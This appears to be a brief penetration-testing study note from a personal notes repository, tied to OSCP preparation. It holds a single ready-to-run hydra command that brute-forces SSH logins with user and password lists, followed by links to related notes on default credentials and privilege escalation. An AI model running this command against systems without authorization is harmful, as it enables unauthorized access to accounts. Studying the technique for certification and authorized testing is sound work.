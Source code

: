 # hydra ssh brute force
```bash
hydra -L users -P passwords -e nsr $IP ssh -t 1
```

` zet/20221003150823/README.md `

# Related

- [20221003150805](/zet/20221003150805/README.md) brute force default credentials ssh

- [20221003151210](/zet/20221003151210/README.md) linux privilege escalation

- [20221003151174](/zet/20221003151174/README.md) SSH to try list

- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam

Tags:

    
